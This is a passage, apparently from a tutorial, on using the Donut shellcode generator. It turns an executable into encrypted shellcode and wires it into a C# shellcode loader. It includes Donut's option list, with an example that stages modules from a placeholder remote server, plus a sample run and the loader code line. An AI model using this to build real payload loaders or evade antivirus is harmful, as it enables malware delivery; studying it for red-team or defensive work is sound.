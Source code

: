 ```
       -x <action>          Exiting. 1=Exit thread (default), 2=Exit process

                   -FILE OPTIONS-

       -c <namespace.class> Optional class name. (required for .NET DLL)
       -d <name>            AppDomain name to create for .NET assembly. If entropy is enabled, this is generated randomly.
       -m <method | api>    Optional method or function for DLL. (a method is required for .NET DLL)
       -p <arguments>       Optional parameters/command line inside quotations for DLL method/function or EXE.
       -w                   Command line is passed to unmanaged DLL function in UNICODE format. (default is ANSI)
       -r <version>         CLR runtime version. MetaHeader used by default or v4.0.30319 if none available.
       -t                   Execute the entrypoint of an unmanaged EXE as a thread.
       -z <engine>          Pack/Compress file. 1=None, 2=aPLib, 3=LZNT1, 4=Xpress, 5=Xpress Huffman

 examples:

    donut c2.dll
    donut -a1 -cTestClass -mRunProcess -pnotepad.exe loader.dll
    donut loader.dll -c TestClass -m RunProcess -p"calc notepad" -s http://remote_server.com/modules/
```
The flags for its usage are provided above. To keep things simple, we can run something like this as an example.

```
D:\Downloads\donut_v0.9.3>donut.exe C:\windows\system32\notepad.exe -a 2

  [ Donut shellcode generator v0.9.3
  [ Copyright (c) 2019 TheWover, Odzhan

  [ Instance type : Embedded
  [ Module file   : "C:\windows\system32\notepad.exe"
  [ Entropy       : Random names + Encryption
  [ File type     : EXE
  [ Target CPU    : amd64
  [ AMSI/WDLP     : continue
  [ Shellcode     : "loader.bin"
```
We can simply just specify the path to the executable, but I also specified the architecture to fit my machine. There are other flags that cover things such as encryption and formatting, but I won't cover that. Now with our binary data in a separate file, we can modify our shellcode loader code. Replace the byte array initialization with this snippet (modify with wherever you outputted and named your shellcode) and add the "using System.IO;" directive.

```
byte[] buf = File.ReadAllBytes("D:\\Downloads\\donut_v0.9.3\\loader.bin");
```
